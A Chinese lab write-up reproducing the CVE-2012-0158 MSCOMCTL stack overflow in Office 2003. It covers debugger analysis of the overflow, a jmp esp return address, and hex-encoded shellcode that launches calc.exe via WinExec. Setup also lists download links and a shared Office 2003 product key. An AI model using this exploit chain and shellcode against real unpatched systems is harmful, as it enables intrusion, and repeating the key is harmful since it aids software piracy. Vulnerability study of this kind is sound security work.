# CVE-2012-0158漏洞环境搭建与复现

## 测试环境

|            | 推荐环境                | 版本                      |
| ---------- | ----------------------- | ------------------------- |
| 操作系统   | Windows XP Professional | Service Pack 3 (x86)      |
| 漏洞软件   | Office                  | 2003 Service Pack 3 (x86) |
| 虚拟机     | VMware                  | 16.2.3                    |
| 调试器     | OllyDBG                 | 2.0.1-32位                |
| 反汇编工具 | ODA Pro                 | 6.8                       |

影响范围：

Microsoft Office 2003 SP3版本、2007 SP2版本和SP3版本、 2010 Gold版本和SP1版本， Office 2003 Web Components SP3版本，SQL Server 2000 SP4版本、2005 SP4版本和2008 SP2版本、SP3版本和R2版本， BizTalk Server 2002 SP1版本，Commerce Server 2002 SP4版本、2007 SP2版本、2009 Gold版本和R2版本，Visual FoxPro 8.0 SP1版本和9.0 SP2版本和Visual Basic 6.0 Runtime版本

影响的操作系统

 Windows 2000, Windows Server 2003, Windows XP (32-bit), Windows Vista (32-bit), Windows 7 (32-bit)

## 环境搭建

https://msdn.itellyou.cn/

Windows XP Professional with Service Pack 3 (x86)

```
ed2k://|file|zh-hans_windows_xp_professional_with_service_pack_3_x86_cd_x14-80404.iso|630239232|CD0900AFA058ACB6345761969CBCBFF4|/
```

需要先安装office标准版在利用补丁升级到sp3

Office Standard Edition 2003 (Simplified Chinese)

```
ed2k://|file|sc_office_2003_std.iso|429031424|DB59D0F8CC31EF72CC15D675FC9B7C34|/
```

Office 2003 Service Pack 3 (x86)

```
ed2k://|file|zh-Hans_office_2003_service_pack_3_x86.exe|142028200|93157828F4CDA043AD266EC492599111|/
```

**office2003通用密钥序列号**

J2MV9-JYYQ6-JM44K-QMYTH-8RB2W

## 漏洞复现

https://github.com/


## 漏洞分析

使用OllyDBG调试

OllyDBG调试选择设置



插件StringOD设置



先打开office，在利用OD进行附加，OD点击运行 office打开poc文件




可以发现在EIP被溢出覆盖为41414141之前 堆栈里最近的返回地址是0x275C8A0A  MSCOMCTL.275C8A0A

我们尝试溯回到触发漏洞的函数



找到这个文件在ida里查看




传进去了3个参数

dwBytes和v7比较，之后还有qmemcpy函数进行复制，长度为dwBytes

再次动调，在关键漏洞函数断点，查看传入的参数


利用010查看参数


修改8282参数在动调看看




推测出dwBytes是左边的值，v7是右边的值。那拷贝的数据长度与需要校验的数据长度就可以自己伪造。

看上层函数，发现就分配了0x14的栈空间




发现程序调用了2次触发漏洞的函数，动态调试看看，在第一次运行该函数那断点



第一次拷贝，拷贝0xC长度的数据，正常能用的空间只剩0x14 - 0xC = 0x8




程序这里判断出了问题，我们接下来需要复制的数据大于8，进行第二次拷贝，造成栈溢出




将覆盖上层函数的返回地址





将上层函数需要返回的地址覆盖掉了，成功造成栈溢出


## 漏洞利用

构造shellcode

构造想法

```
Addr(jmp esp)+\x90*n+shellcode
```

该函数最后指令为


最后esp = esp+8

需要利用8个/x90填充 n =  8

现在需要寻找一个jmp esp指令的地址，要求模块未开启DEP（堆栈不可执行），ASLR（地址随机化），SafeSEH（异常处理保护）

这里我利用msvbvm60.dll中的jmp esp，先找到该模块的位置


搜索指令



找到指令地址 由于大小端序问题 我们需要把**7344745D**转为**5D744473**

接着是构造shellcode

静态方法


WinExec地址为 0x7c8623ad

```c
_declspec(naked) void test02()
{
	__asm{
        //执行WinExec()
        xor     ecx, ecx
        push    ecx
        push    0x6578652E                          //".exe"
        push    0x636C6163                          //"calc"
        mov     ebx, esp
        push    5
        push    ebx
        mov 	eax,0x7c8623ad
        call    eax
    };
}
int main(void){
    test02();
    return 0;
}
//5D744473
9090909090909090
33C951682E6578656863616C638BDC6A0553B8AD23867CFFD0
```

动态获取api地址弹计算器

通过查询kernel32.dll的导出表确定`GetProcAddress()`地址, 再通过`GetProcAddress()`获取`WinExec()`地址

```c
_declspec(naked) void test02()
{
	__asm{
        //查找kernel32.dll基址
        xor     ecx, ecx
        mov     eax, fs:[ecx + 0x30]        // EAX = PEB
        mov     eax, [eax + 0xc]            // EAX = PEB->Ldr
        mov     esi, [eax + 0x14]           // ESI = PEB->Ldr.InMemOrder
        lodsd                               // EAX = Second module
        xchg    eax, esi                    // EAX = ESI, ESI = EAX
        lodsd                               // EAX = Third(kernel32)
        mov     ebx, [eax + 0x10]           // EBX = Base address
        push    ebx
        
        //找到kernel32.dll的导出表
        mov     edx, [ebx + 0x3c]           // EDX = DOS->e_lfanew
        add     edx, ebx                    // EDX = PE Header
        mov     edx, [edx + 0x78]           // EDX = Offset export table
        add     edx, ebx                    // EDX = Export table
        mov     esi, [edx + 0x20]           // ESI = Offset names table
        add     esi, ebx                    // ESI = Names table
        xor     ecx, ecx                    // EXC = 0

    Get_Function:
        inc     ecx                                 // Increment the ordinal
        lodsd                                       // Get name offset
        add     eax, ebx                            // Get function name
        cmp     dword ptr[eax], 0x50746547          // GetP
        jnz     Get_Function
        cmp     dword ptr[eax + 0x4], 0x41636f72    // rocA
        jnz     Get_Function
        cmp     dword ptr[eax + 0x8], 0x65726464    // ddre
        jnz     Get_Function

        //找到GetProcAddress函数地址
        mov     esi, [edx + 0x24]                   // ESI = Offset ordinals
        add     esi, ebx                            // ESI = Ordinals table
        mov     cx, [esi + ecx * 2]                 // CX = Number of function
        dec     ecx             
        mov     esi, [edx + 0x1c]                   // ESI = Offset address table
        add     esi, ebx                            // ESI = Address table
        mov     edx, [esi + ecx * 4]                // EDX = Pointer(offset)
        add     edx, ebx                            // EDX = GetProcAddress

        //获取WinExec()地址 
        pop     ebx                                 //kernel32.dll
        xor     ecx, ecx                   
        push    ecx
        mov     ecx, 0x61636578                     // xeca
        push    ecx
        sub     dword ptr[esp + 0x3], 0x61          // Remove "a"
        push    0x456e6957                          // WinE
        push    esp                                 //"WinExec"
        push    ebx
        call    edx

        //执行WinExec()
        xor     ecx, ecx
        push    ecx
        push    0x6578652E                          //".exe"
        push    0x636C6163                          //"calc"
        mov     ebx, esp
        push    5
        push    ebx
        call    eax
    };
}
int main(void){
    test02();
    return 0;
}
```


```
5D744473
9090909090909090
33C9648B41308B400C8B7014AD96AD8B5810538B533C03D38B527803D38B722003F333C941AD03C381384765745075F4817804726F634175EB8178086464726575E28B722403F3668B0C4E498B721C03F38B148E03D35B33C951B97865636151836C2403616857696E455453FFD26A00682E6578656863616C638BDC6A0553FFD0
```


